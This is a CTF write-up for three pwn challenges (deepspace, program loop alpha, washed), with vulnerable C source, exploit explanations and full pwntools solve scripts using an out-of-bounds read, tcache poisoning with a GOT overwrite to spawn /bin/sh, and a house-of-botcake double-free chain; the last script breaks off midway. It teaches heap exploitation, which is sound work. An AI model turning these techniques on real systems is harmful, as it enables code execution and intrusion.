

This is a National CTF Challenge, got full solve on the pwn and also top 1 scoreboard when freeze.


This is my team score.


Sadly only solve full solve pwn should be able to solve more.


# Pwn - deepspace

## Introduction 



## Source Code

There is no source code, but this is the result of ChatGPT beautifying the code from the decompiler

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <signal.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/stat.h>

// --- Forward declarations ---
static void timeout_handler(int sig);
static unsigned int init(void);
static int print_menu(void);
static void start_challenge(void);

static void timeout_handler(int sig)
{
    (void)sig;
    puts("\n[!] Signal timeout. The is no longer responsive.");
    exit(1);
}

static unsigned int init(void)
{
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin,  NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
    signal(SIGALRM, timeout_handler);
    return alarm(0x3C); // 60 seconds
}

static int print_menu(void)
{
    puts("\n---[ Deep Space Communications - Terminal ]---");
    puts("STATUS: Standby. Awaiting encrypted message relay.");
    puts("----------------------------------------------------");
    puts("1. Send diagnostic signal");
    puts("2. Check for incoming messages");
    puts("3. Review last signal log");
    puts("4. Reboot communications array");
    puts("5. Show aliens");
    return printf("> ");
}

static void start_challenge(void)
{
    int choice = 0;
    int fd;
    unsigned long nbytes;   // keep %lu behavior consistent with original
    void *flag_buf;         // v3 in the original
    void *buf;              // buf in the original
    int v5 = 0;             // preserved (unused) variable from original logic

    flag_buf = mmap(NULL, 0x1375u, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    buf      = mmap(NULL, 0x169u,  PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    for (;;)
    {
        print_menu();
        if (scanf("%d", &choice) != 1) {
            // If input fails, consume a char like original getchar() does and continue
            getchar();
            puts("[!] Invalid command.");
            continue;
        }
        getchar(); // consume trailing newline

        switch (choice)
        {
            case 1:
                printf("Payload size: ");
                if (scanf("%lu", &nbytes) != 1) {
                    getchar();
                    puts("[!] Invalid size.");
                    break;
                }
                getchar(); // consume trailing newline
                puts("Send your diagnostic signal!");
                // Intentionally no bounds checking (matches original behavior)
                read(0, buf, (size_t)nbytes);
                puts("[+] Signal sent.");
                break;

            case 2:
                puts("[*] Encrypted message detected! Routing to secure buffer...");
                fd = open("./flag", O_RDONLY);
                if (fd == -1)
                {
                    perror("Error opening flag file");
                    exit(1);
                }
                read(fd, flag_buf, 0x64u);
                close(fd);
                v5 = 1; // preserved side effect
                puts("[+] Message stored successfully");
                break;

            case 3:
                printf("Enter log size: ");
                if (scanf("%lu", &nbytes) != 1) {
                    getchar();
                    puts("[!] Invalid size.");
                    break;
                }
                getchar(); // consume trailing newline
                puts("\n--- Full Diagnostic Log ---");
                // Intentionally no bounds checking (matches original behavior)
                write(1, buf, (size_t)nbytes);
                puts("\n--- End of Full Log ---");
                break;

            case 4:
                puts("[*] Rebooting array... Goodbye.");
                exit(0);

            case 5:
                puts("\n--- Aliens Info ---");
                printf("Aliens 1: %p\n", flag_buf);
                printf("Aliens 2: %p\n", buf);
                puts("--------------------");
                break;

            default:
                puts("[!] Invalid command.");
                break;
        }
    }
}

int main(void)
{
    init();
    start_challenge();
    return 0; // not reached
}
```

## Summary

Simply take the leak address, then call the `read` flag, and `write` the value to the offset between the `buffer` and the flag location, since the fd `read` flag is set to 1.

## Solution

Given the challenge file, when decompiled, there is a menu with the read flag option.
```c
...
            case 2:
                puts("[*] Encrypted message detected! Routing to secure buffer...");
                fd = open("./flag", O_RDONLY);
                if (fd == -1)
                {
                    perror("Error opening flag file");
                    exit(1);
                }
                read(fd, flag_buf, 0x64u);
                close(fd);
                v5 = 1; // preserved side effect
                puts("[+] Message stored successfully");
                break;
...
```

It's clear that our goal in this challenge is to simply `read` the flag and see its contents. Furthermore, fd when `read` the flag must be 1, and `write` uses fd = 1.

The vulnerability in this program is `OOB`, where the buffer and flag location are both on the stack.


So, simply calculate the offsets and how many we want to leak the content.


### Solve Script

```python
#!/usr/bin/env python3
from subprocess import Popen, PIPE
from pwncli import *
import sys
# =========================================================
#                          SETUP                         
# =========================================================
exe = './chall_patched'
try: elf = context.binary = ELF(exe, checksec=False)
except: elf = type('S',(),{'address':0})()
try: libc = elf.libc
except: libc = type('S',(),{'address':0})()
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]


gdbscript = '''
init-pwndbg
# set architecture aarch64
# target remote :5000
c
'''.format(**locals())

def is_ipv4(s):
    return len(s.split('.')) == 4 and all(p.isdigit() and 0 <= int(p) <= 255 for p in s.split('.'))

def is_domain(s):
    return all(part.isalnum() or part == '-' for part in s.split('.'))

def is_port(s):
    return s.isdigit() and 0 <= int(s) <= 65535

def use_ip():
    return len(sys.argv) >= 3 and (is_ipv4(sys.argv[1]) or is_domain(sys.argv[1])) and is_port(sys.argv[2])

def initialize(argv=[]):
    global pid
    update_checksec() 
    if args.QEMU:
        if args.GDB:
            return process(["qemu-aarch64", "-g", "5000", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
        else:
            return process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(1)
        pid = process(["pgrep", "-fx", "/app/run"]).recvall().strip().decode()
        return p
    elif args.REMOTE:
        context.log_level = 'info'
        host, port = ("103.185.52.103", 2001) if len(sys.argv) < 4 else (sys.argv[2], int(sys.argv[3]))
        return remote(host, port, ssl=False)
    elif use_ip():
        context.log_level = 'info'
        host, port = str(sys.argv[1]), int(sys.argv[2])
        return remote(host, port, ssl=False)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    else:
        return process([exe] + argv)

def execute(cmds, verbose=False):
    cmds = cmds if isinstance(cmds, list) else cmds.split()
    if verbose:
        sys.stdout.write("\n")
        sys.stdout.flush()
        p = Popen(cmds, stdout=PIPE, stderr=sys.stdout, text=True, bufsize=1)
        buf = []
        for line in p.stdout:
            sys.stdout.write(line)   # live output (colors intact)
            sys.stdout.flush()
            buf.append(line)         # keep copy
        p.wait()
        return "".join(buf)
    else:
        p = Popen(cmds, stdout=PIPE, stderr=PIPE, text=True)
        out, err = p.communicate()
        return out if out else err

def debug():
    global gdbscript, pid
    if ((not args.REMOTE and not args.GDB) or (args.QEMU and args.GDB)) and not (use_ip()):
        if args.QEMU:
            gdb_args = ["tmux", "splitw", "-h", "-p", "65", "gdb"]
            for cmd in [item for line in gdbscript.strip().splitlines() if (item := line.strip())]:
                gdb_args.extend(["-ex", cmd])
            Popen(gdb_args)
        elif args.DOCKER:   
            attach(int(pid), gdbscript=gdbscript, sysroot=f"/proc/{pid}/root", exe=exe)
        else:
            attach(io, gdbscript=gdbscript)

def update_checksec():
    marker = "CHECKSEC"
    fn = sys.modules[__name__].__file__
    with open(fn, "r+", encoding="utf-8") as f:
        src = f.read()
        i = src.find(marker)
        i = src.find(marker, i + 1)
        i = src.find("\n", i)
        i = src.find("\n", i + 1)
        start = i + 1
        end = src.find("\n", start)
        if end == -1: 
            end = len(src)
        if src[start:end].strip() == "":
            output = execute("checksec --file {}".format(exe))
            commented = "".join(("# " + line + "\n") if line.strip() else "#" for line in output.splitlines())
            src = src[:start] + commented + src[end:]
            f.seek(0); f.write(src); f.truncate()

s       = lambda data               :io.send(data)
sa      = lambda x, y               :io.sendafter(x, y)
sl      = lambda data               :io.sendline(data)
sla     = lambda x, y               :io.sendlineafter(x, y)
se      = lambda data               :str(data).encode()
r       = lambda delims             :io.recv(delims)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data,num           :u32(io.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(io.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{}: {}'.format(name, addr))
l64     = lambda                    :u64(io.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda                    :u32(io.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
ns      = lambda p, data            :next(p.search(data))
nsa     = lambda p, instr           :next(p.search(asm(instr, arch=p.arch)))

# =========================================================
#                         CHECKSEC
# =========================================================
# [*] '/home/kali/Windows/Schematic NPC/deepspace/chall_patched'
#     Arch:       amd64-64-little
#     RELRO:      Full RELRO
#     Stack:      No canary found
#     NX:         NX enabled
#     PIE:        PIE enabled
#     RUNPATH:    b'.'
#     SHSTK:      Enabled
#     IBT:        Enabled
#     Stripped:   No

# =========================================================
#                         EXPLOITS
# =========================================================
def menu(choice:int):
    sla(b"> ", se(choice))

def opt1_send_signal(size:int, data:bytes):
    menu(1)
    sla(b"Payload size: ", se(size))
    ru(b"Send your diagnostic signal!\n")
    s(data)
    ru(b"[+] Signal sent.\n")

def opt2_load_flag():
    menu(2)
    ru(b"[+] Message stored successfully\n")


def opt3_read_log(size:int) -> bytes:
    menu(3)
    sla(b"Enter log size: ", se(size))
    ru(b"--- Full Diagnostic Log ---\n")
    blob = io.recvn(size, timeout=2)
    ru(b"\n--- End of Full Log ---\n")
    return blob

def opt5_show_pointers() -> tuple[int,int]:
    menu(5)
    ru(b"--- Aliens Info ---\n")
    ru(b"Aliens 1: ")
    v3 = int(rl().strip(), 16)
    ru(b"Aliens 2: ")
    buf = int(rl().strip(), 16)
    ru(b"--------------------\n")
    return v3, buf

def exploit(x):
    global io
    io = initialize()
    debug()
    v3, buf = opt5_show_pointers()
    leak("v3 (secure buffer)", hex(v3))
    leak("buf (user buffer)", hex(buf))
    opt2_load_flag()
    want = (v3 - buf) + 0x80
    log.info(f"Attempting OOB read of {want:#x} bytes to cover v3 region…")
    dump = opt3_read_log(want)
    off = v3 - buf
    flag_part = dump[off:off+0x64]
    log.success(f"Extracted bytes at offset {off:#x} (candidate flag): {flag_part!r}")
    leak("ELF base address", hex(elf.address)) if elf.address else None
    leak("Libc base address", hex(libc.address)) if libc.address else None
    io.interactive() if not args.NOINTERACT else None

if __name__ == '__main__':
    global io
    for i in range(1):
        try:
            exploit(i)
        except Exception as e:
            print(f"Error occurred: {e}")
        io.close()
```

### Flag

`SCH25{Kur4ng_T4hU_Ju9A_Y4H_muNgKiN_SuaTu_s4At_b4KaL_When_Yh}`
    
# Pwn - program loop alpha

## Introduction 


## Source Code

```C
#include <stdio.h>
#include <stdlib.h>

void banner() {
  printf ("   ____   _____   ____   _________   \n"
          "  /  _ \\ /     \\_/ __ \\ / ___\\__  \\  \n"
          " (  <_> )  Y Y  \\  ___// /_/  > __ \\_\n"
          "  \\____/|__|_|  /\\___  >___  (____  /\n"
          "              \\/     \\/_____/     \\/ \n");
}

void menu() {
  printf ("Program loop Alpha: sequence initiated...\n"
          "1. Allocate\n"
          "2. View\n"
          "3. Edit\n"
          "4. Free\n"
          "<blip> ");
}

void error() {
  printf("<bleep> Critical error.\n");
}

char *memory[8];
int count = 0;

void add() {
  if (count < 8) {
    printf("Allocating memory...\nSize: ");
    char input[8];
    fgets(input, sizeof(input), stdin);
    int size = atoi(input);
    if (size <= 0 || size > 0x500) {
      error();
      return;
    }
    memory[count] = malloc(size);
    count++;
  } else {
    error();
  }
}

void view() {
  if (count > 0) {
    printf("Analyzing memory...\nIndex: ");
    char input[8];
    fgets(input, sizeof(input), stdin);
    int index = atoi(input);
    if (index < 0 || index >= count) {
      error();
      return;
    }
    puts(memory[index]);
  } else {
    error();
  }
}

void edit() {
  if (count > 0) {
    printf("Reconditioning memory...\nIndex: ");
    char input[8];
    fgets(input, sizeof(input), stdin);
    int index = atoi(input);
    if (index < 0 || index >= count) {
      error();
      return;
    }
    printf("Edit: ");
    scanf("%s", memory[index]);
    getchar();
  } else {
    error();
  }
}

void deallocate() {
  if (count > 0) {
    printf("Deallocating memory...\nIndex: ");
    char input[8];
    fgets(input, sizeof(input), stdin);
    int index = atoi(input);
    if (index < 0 || index >= count) {
      error();
      return;
    }
    free(memory[index]);
  } else {
    error();
  }
}

int main() {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  setbuf(stderr, NULL);
  banner();

  char input[8];

  for(;;){
    menu();
    fgets(input, sizeof(input), stdin);

    switch (atoi(input)) {
      case 1:
        add();
        break;
      case 2:
        view();
        break;
      case 3:
        edit();
        break;
      case 4:
        deallocate();
        break;
      default:
        error();
        break;
    }

    printf("\n");
  }
}
```

## Summary

Leak libc and the heap with freeing the address then read. After that just target the chunk pointer with `tcache poisoning` and overwrite the first chunk to get `free` -> `execve`, then change the first chunk to the address `/bin/sh` and call `free`.

## Solution

Given the main file with the source code main.c
```c
  for(;;){
    menu();
    fgets(input, sizeof(input), stdin);

    switch (atoi(input)) {
      case 1:
        add();
        break;
      case 2:
        view();
        break;
      case 3:
        edit();
        break;
      case 4:
        deallocate();
        break;
      default:
        error();
        break;
    }
  }
```
Reading the source code, it reveals a heap CRUD (Create, Read, Update, Delete) menu. During allocation, the maximum is 7.
```c
void add() {
  if (count < 8) {
    printf("Allocating memory...\nSize: ");
    char input[8];
    fgets(input, sizeof(input), stdin);
    int size = atoi(input);
    if (size <= 0 || size > 0x500) {
      error();
      return;
    }
    memory[count] = malloc(size);
    count++;
  } else {
    error();
  }
}
```
This program uses libc version `2.35`, so `__free_hook` cannot be used. However, there is no PIE and GOT PARTIAL RELRO, allowing for overwriting of the GOT.

The vulnerability in this program are `UAF` and a pointer that is not null when freed, allowing us to read the pointer after it has been deleted.
```c
void deallocate() {
  if (count > 0) {
    printf("Deallocating memory...\nIndex: ");
    char input[8];
    fgets(input, sizeof(input), stdin);
    int index = atoi(input);
    if (index < 0 || index >= count) {
      error();
      return;
    }
    free(memory[index]); 
    //it should add memory[index] = NULL;
  } else {
    error();
  }
}
```
So, first, we leak libc and the heap address with a large allocation size and guard, then `free` the chunk. To exploit this, we can perform `tcache poisoning` on the `memory` chunk (the chunk that stores our idx pointer) and then overwrite the first chunk pointer to the GOT `free`.


Then we overwrite `free` -> `execve`. The reason don't use `system` is because the system address contains the invalid address 0x0d -> \r, which `scanf` won't accept.


After that, change the first pointer to the address containing `/bin/sh` and `free(0)`.


### Solve Script

```python
#!/usr/bin/env python3
from ctypes import CDLL
from subprocess import Popen, PIPE
from pwncli import *
import sys
# =========================================================
#                          SETUP                         
# =========================================================
exe = './main_patched'
try: elf = context.binary = ELF(exe, checksec=False)
except: elf = type('S',(),{'address':0})()
try: libc = elf.libc
except: libc = type('S',(),{'address':0})()
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]


gdbscript = '''
init-pwndbg
# set architecture aarch64
# target remote :5000
c
'''.format(**locals())

def is_ipv4(s):
    return len(s.split('.')) == 4 and all(p.isdigit() and 0 <= int(p) <= 255 for p in s.split('.'))

def is_domain(s):
    return all(part.isalnum() or part == '-' for part in s.split('.'))

def is_port(s):
    return s.isdigit() and 0 <= int(s) <= 65535

def use_ip():
    return len(sys.argv) >= 3 and (is_ipv4(sys.argv[1]) or is_domain(sys.argv[1])) and is_port(sys.argv[2])

def initialize(argv=[]):
    global pid
    update_checksec() 
    if args.QEMU:
        if args.GDB:
            return process(["qemu-aarch64", "-g", "5000", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
        else:
            return process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(1)
        pid = process(["pgrep", "-fx", "/app/run"]).recvall().strip().decode()
        return p
    elif args.REMOTE:
        context.log_level = 'info'
        host, port = ("103.185.52.103", 2003) if len(sys.argv) < 4 else (sys.argv[2], int(sys.argv[3]))
        return remote(host, port, ssl=False)
    elif use_ip():
        context.log_level = 'info'
        host, port = str(sys.argv[1]), int(sys.argv[2])
        return remote(host, port, ssl=False)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    else:
        return process([exe] + argv)

def execute(cmds, verbose=False):
    cmds = cmds if isinstance(cmds, list) else cmds.split()
    if verbose:
        sys.stdout.write("\n")
        sys.stdout.flush()
        p = Popen(cmds, stdout=PIPE, stderr=sys.stdout, text=True, bufsize=1)
        buf = []
        for line in p.stdout:
            sys.stdout.write(line)   # live output (colors intact)
            sys.stdout.flush()
            buf.append(line)         # keep copy
        p.wait()
        return "".join(buf)
    else:
        p = Popen(cmds, stdout=PIPE, stderr=PIPE, text=True)
        out, err = p.communicate()
        return out if out else err

def debug():
    global gdbscript, pid
    if ((not args.REMOTE and not args.GDB) or (args.QEMU and args.GDB)) and not (use_ip()):
        if args.QEMU:
            gdb_args = ["tmux", "splitw", "-h", "-p", "65", "gdb"]
            for cmd in [item for line in gdbscript.strip().splitlines() if (item := line.strip())]:
                gdb_args.extend(["-ex", cmd])
            Popen(gdb_args)
        elif args.DOCKER:   
            attach(int(pid), gdbscript=gdbscript, sysroot=f"/proc/{pid}/root", exe=exe)
        else:
            attach(io, gdbscript=gdbscript)

def update_checksec():
    marker = "CHECKSEC"
    fn = sys.modules[__name__].__file__
    with open(fn, "r+", encoding="utf-8") as f:
        src = f.read()
        i = src.find(marker)
        i = src.find(marker, i + 1)
        i = src.find("\n", i)
        i = src.find("\n", i + 1)
        start = i + 1
        end = src.find("\n", start)
        if end == -1: 
            end = len(src)
        if src[start:end].strip() == "":
            output = execute("checksec --file {}".format(exe))
            commented = "".join(("# " + line + "\n") if line.strip() else "#" for line in output.splitlines())
            src = src[:start] + commented + src[end:]
            f.seek(0); f.write(src); f.truncate()

s       = lambda data               :io.send(data)
sa      = lambda x, y               :io.sendafter(x, y)
sl      = lambda data               :io.sendline(data)
sla     = lambda x, y               :io.sendlineafter(x, y)
se      = lambda data               :str(data).encode()
r       = lambda delims             :io.recv(delims)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data,num           :u32(io.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(io.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{}: {}'.format(name, addr))
l64     = lambda                    :u64(io.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda                    :u32(io.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
ns      = lambda p, data            :next(p.search(data))
nsa     = lambda p, instr           :next(p.search(asm(instr, arch=p.arch)))

# =========================================================
#                         CHECKSEC
# =========================================================
# [*] '/home/kali/Windows/Schematic NPC/program-loop-alpha/main_patched'
#     Arch:       amd64-64-little
#     RELRO:      Partial RELRO
#     Stack:      Canary found
#     NX:         NX enabled
#     PIE:        No PIE (0x3fe000)
#     RUNPATH:    b'.'
#     SHSTK:      Enabled
#     IBT:        Enabled
#     Stripped:   No

# =========================================================
#                         EXPLOITS
# =========================================================
def mangle(heap_addr, val):
    return (heap_addr >> 12) ^ val

def menu(choice):
    sla(b"<blip> ", se(choice)) 

def alloc(sz):
    menu(1)
    sla(b"Size: ", se(sz))

def show(idx):
    menu(2)
    sla(b"Index: ", se(idx))
    return rl().strip()

def edit(idx, data: bytes | str):
    menu(3)
    sla(b"Index: ", se(idx))
    if isinstance(data, bytes):
        io.sendafter(b"Edit: ", data + b"\n")
    else:
        sla(b"Edit: ", se(data))

def free(idx):
    menu(4)
    sla(b"Index: ", se(idx))


def tcache_poison(idx, size, target):
    global heap
    alloc(size)
    alloc(size)
    free(idx)
    free(idx + 1)
    edit(idx + 1, p64(mangle(heap, target)))  # overwrite fd pointer
    alloc(size)
    alloc(size)

def exploit(x):
    global io, heap
    io = initialize()
    with log.progress("Leaking libc and heap"):
        alloc(0x428)  # idx 0
        alloc(0x18)   # idx 1
        free(0) # unsorted bin chunk
        free(1) # tcache chunk
        libc_leak = u64(show(0).ljust(8, b"\x00"))
        libc.address = libc_leak - (libc.sym["main_arena"] + 96)
        heap = u64(show(1).ljust(8, b"\x00")) << 12
        alloc(0x428)  # idx 2
        alloc(0x18)   # idx 3
    debug()
    leak("Libc leak", hex(libc_leak))
    leak("Heap leak", hex(heap))
    with log.progress("Tcache poisoning to memory chunk to get arbitrary write"):
        tcache_poison(4, 0xf8, elf.sym["memory"] - 0x10)
        edit(7, p64(0)*2 + p64(elf.got["free"])) # overwrite got free->execve
        edit(0, p64(libc.sym["execve"])[:6])
        pause()
        edit(7, p64(0)*2 + p64(ns(libc, b"/bin/sh\x00"))) # memory[0] -> "/bin/sh"
        free(0) # trigger execve("/bin/sh", 0, 0)
    leak("ELF base address", hex(elf.address)) if elf.address else None
    leak("Libc base address", hex(libc.address)) if libc.address else None
    io.interactive() if not args.NOINTERACT else None

if __name__ == '__main__':
    global io
    for i in range(1):
        try:
            exploit(i)
        except Exception as e:
            print(f"Error occurred: {e}")
        io.close()
```

### Flag

`SCH25{pl4y_ff14_2_und3rst4nd_r3f3rence_al50_gg_on_h3ap_xpl017}`

# Pwn - washed

## Introduction 


## Source Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <stdbool.h>

#define CREATE_USER 0x1
#define DELETE_USER 0x2
#define LIST_USERS 0x3
#define EDIT_USER 0x4
#define EXIT 0x5
#define MAX_USERS 66

typedef struct
{
    unsigned long long id;
    unsigned long long age;
    char name[8];
} User;

User *users[MAX_USERS] = {0};

void init(void)
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

void menu(void)
{
    puts("1. Create User");
    puts("2. Delete User");
    puts("3. List Users");
    puts("4. Edit User");
    puts("5. Exit");
    printf(">> ");
}

void create_user(void)
{
    for (int i = 0; i < MAX_USERS; i++)
    {
        if (users[i] == NULL)
        {
            users[i] = malloc(sizeof(User));
            if (!users[i])
            {
                puts(":(");
                _exit(-1);
            }
            printf("Enter ID: ");
            scanf("%llu", &users[i]->id);
            printf("Enter Age: ");
            scanf("%llu", &users[i]->age);
            printf("Enter Name: ");
            read(0, users[i]->name, sizeof(users[i]->name));
            printf("User created\n");
            return;
        }
    }
    puts("User limit reached");
}

void delete_user(void)
{
    unsigned int index;
    printf("Enter user index to delete: ");
    scanf("%u", &index);
    if (index >= MAX_USERS || users[index] == NULL)
    {
        puts("Invalid index");
        return;
    }
    free(users[index]);
    puts("User deleted");
}

void list_users(void)
{
    for (int i = 0; i < MAX_USERS; i++)
    {
        if (users[i] != NULL)
        {
            printf("Index: %d, ID: %llu, Age: %llu, Name: %s\n", i, users[i]->id, users[i]->age, users[i]->name);
        }
    }
}

void edit_user(void)
{

    unsigned int index;
    printf("Enter user index to edit: ");
    scanf("%u", &index);
    if (index >= MAX_USERS || users[index] == NULL)
    {
        puts("Invalid index");
        return;
    }
    printf("Enter new ID: ");
    scanf("%llu", &users[index]->id);
    printf("Enter new Age: ");
    scanf("%llu", &users[index]->age);
    printf("Enter new Name: ");
    read(0, users[index]->name, sizeof(users[index]->name));
    printf("User updated\n");
}

int main(void)
{
    init();
    unsigned int choice;
    bool edit_used = false;
    while (true)
    {
        menu();
        scanf("%u", &choice);
        switch (choice)
        {
        case CREATE_USER:
            create_user();
            break;
        case DELETE_USER:
            delete_user();
            break;
        case LIST_USERS:
            list_users();
            break;
        case EDIT_USER:
            if (!edit_used)
            {
                edit_used = true;
                edit_user();
            }
            else
            {
                puts("Edit option can only be used once.");
            }
            break;
        case EXIT:
            _exit(0);
            break;
        default:
            puts("Invalid choice");
        }
    }
    return 0;
}
```

## Summary

Leak the heap with `UAF`, then overwrite the chunk header to a large size with `house of botcake` to get a libc leak when `free`. Then, leak the stack again with `house of botcake` and calculate the return address offset. After that, simply create a `ret2system` chunk and pivot it to the `ret2system` heap chunk with `tcache poisoning`.

## Solution

Given the `main` file with the source code `main.c`.
```c
...
    bool edit_used = false;
    while (true)
    {
        menu();
        scanf("%u", &choice);
        switch (choice)
        {
        case CREATE_USER:
            create_user();
            break;
        case DELETE_USER:
            delete_user();
            break;
        case LIST_USERS:
            list_users();
            break;
        case EDIT_USER:
            if (!edit_used)
            {
                edit_used = true;
                edit_user();
            }
            else
            {
                puts("Edit option can only be used once.");
            }
            break;
        case EXIT:
            _exit(0);
            break;
        default:
            puts("Invalid choice");
        }
    }
...
```
When read, it looks like a heap CRUD menu but updates can only be used once. Allocations are also limited to 66 (the sus number), and we cannot control the size.
```c
...

#define MAX_USERS 66

...

void create_user(void)
{
    for (int i = 0; i < MAX_USERS; i++)
    {
        if (users[i] == NULL)
        {
            users[i] = malloc(sizeof(User));
            if (!users[i])
            {
                puts(":(");
                _exit(-1);
            }
            printf("Enter ID: ");
            scanf("%llu", &users[i]->id);
            printf("Enter Age: ");
            scanf("%llu", &users[i]->age);
            printf("Enter Name: ");
            read(0, users[i]->name, sizeof(users[i]->name));
            printf("User created\n");
            return;
        }
    }
    puts("User limit reached");
}

...
```

The vulnerability in this program is when `free` is not set to null, allowing us to perform a `double free`.

```c
void delete_user(void)
{
    unsigned int index;
    printf("Enter user index to delete: ");
    scanf("%u", &index);
    if (index >= MAX_USERS || users[index] == NULL)
    {
        puts("Invalid index");
        return;
    }
    free(users[index]);
    // it should add users[index] = NULL;
    puts("User deleted");
}
```

An exploit idea could be use is [house of botcake](https://wood1314.github.io/year/09/15/cloi1kuah002rzs3fq9r9uqrn/), where we fill the `tcache` and then perform a `fastbin dup`. When the `tcache` runs out, the `fastbin` pointer will move to the `tcache`.


For the target overwrite the heap header chunk to a large size to get a libc leak.


To be valid, allocate the chunk until there is a guard, then `free` it to get a libc leak.


After alocating the libc leak, I targeted the libc `environ` to obtain the `stack` address.


Then, I targeted the `ret address - 8`, which we overwrite `rbp` + `leave`.


The `rbp` is `target - 8` for the heap pivot address where the `system` payload inside.


### Solve Script

```python
#!/usr/bin/env python3
from subprocess import Popen, PIPE
from pwncli import *
import sys
# =========================================================
#                          SETUP                         
# =========================================================
exe = './main_patched'
try: elf = context.binary = ELF(exe, checksec=False)
except: elf = type('S',(),{'address':0})()
try: libc = elf.libc
# libc = './libc.so.6'
# libc = ELF(libc, checksec=False)
# libc = CDLL("/lib/x86_64-linux-gnu/libc.so.6")
except: libc = type('S',(),{'address':0})()
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]


gdbscript = '''
init-pwndbg
# set architecture aarch64
# target remote :5000
b *create_user+399
c
'''.format(**locals())

def is_ipv4(s):
    return len(s.split('.')) == 4 and all(p.isdigit() and 0 <= int(p) <= 255 for p in s.split('.'))

def is_domain(s):
    return all(part.isalnum() or part == '-' for part in s.split('.'))

def is_port(s):
    return s.isdigit() and 0 <= int(s) <= 65535

def use_ip():
    return len(sys.argv) >= 3 and (is_ipv4(sys.argv[1]) or is_domain(sys.argv[1])) and is_port(sys.argv[2])

def initialize(argv=[]):
    global pid
    update_checksec() 
    if args.QEMU:
        if args.GDB:
            return process(["qemu-aarch64", "-g", "5000", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
        else:
            return process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(1)
        pid = process(["pgrep", "-fx", "/app/run"]).recvall().strip().decode()
        return p
    elif args.REMOTE:
        context.log_level = 'info'
        host, port = ("103.185.52.103", 5003) if len(sys.argv) < 4 else (sys.argv[2], int(sys.argv[3]))
        return remote(host, port, ssl=False)
    elif use_ip():
        context.log_level = 'info'
        host, port = str(sys.argv[1]), int(sys.argv[2])
        return remote(host, port, ssl=False)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    else:
        return process([exe] + argv)

def execute(cmds, verbose=False):
